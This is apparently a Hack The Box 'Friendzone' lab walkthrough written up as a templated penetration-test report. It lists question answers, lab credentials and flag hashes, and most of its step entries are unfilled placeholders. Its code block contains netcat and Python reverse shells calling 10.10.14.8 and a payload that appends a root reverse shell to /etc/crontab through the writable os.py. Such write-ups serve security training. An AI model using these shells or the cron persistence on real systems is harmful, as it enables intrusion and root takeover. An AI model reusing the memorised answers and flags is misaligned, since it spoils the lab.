




# Offensive Security Assessment Report: Friendzone


**Offensive Security Assessment & Penetration Testing Report** conducted on the target environment **Friendzone** hosted on **Hack The Box**, executed in accordance with **OffSec PEN-200 (OSCP)** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Friendzone |
| **Platform** | Hack The Box |
| **Operating System** | Linux |
| **Difficulty Rating** | Easy |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

> **Assessment Query / Target Milestone:** What is the common name for the box given on the TLS certificate on one of the open ports?

* **Observed Evidence / Output:** friendzone.red



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


> **Assessment Query / Target Milestone:** What is the name of the Samba share that allows for anonymous read and write access?

* **Observed Evidence / Output:** Development


* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


> **Assessment Query / Target Milestone:** What is the admin password available from `creds.txt` in one of the SMB shares?

* **Observed Evidence / Output:** WORKWORKHhallelujah@#


* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


There are several subdomains of the friendzone.red domain available on this server. What is the name of the subdomain that returns a login form with the title "Login Form for FriendZone"?

* **Observed Evidence / Output:** administrator1.friendzone.red


* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


**The** `dashboard.php` **page seems to be including another page that provides a timestamp. That page can also be visited directly. What is the relative path on the webserver to that page?**

* **Observed Evidence / Output:** /timestamp.php


* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What's the full path on FriendZone to the directory that is shared by Samba as the Development share?

* **Observed Evidence / Output:** /etc/Development


* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What user is the webserver running as?

* **Observed Evidence / Output:** www-data



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Submit the flag located in the friend user's home directory.**

* **Observed Evidence / Output:** 98481de2d4551e6d419ce1c425c96106


* **Assessment Step 11:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the friend user's password?

* **Observed Evidence / Output:** Agpyu12!0.213$



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path to the script that root is running every few minutes on a cron?

* **Observed Evidence / Output:** /opt/server_admin/reporter.py


* **Assessment Step 13:** Command execution output, exploit delivery proof, or auxiliary evidence.


* **Assessment Step 14:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path to the file related to `reporter.py` that is also world-writable?

* **Observed Evidence / Output:** /usr/lib/python2.7/os.py


* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.


**Submit the flag located in root's home directory.**

* **Observed Evidence / Output:** 6fb1987d88c0eac063d15ff60bf48f3c


* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.


```jsx
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.8 999 >/tmp/f")

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.8",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")'

shell = '''
* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
10.10.14.8 4444 >/tmp/f
'''
f = open('/etc/crontab', 'a')
f.write(shell)
f.close()
```

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for **OffSec** certification preparation (OSCP, OSEP, OSWE) and commercial penetration testing enablement.
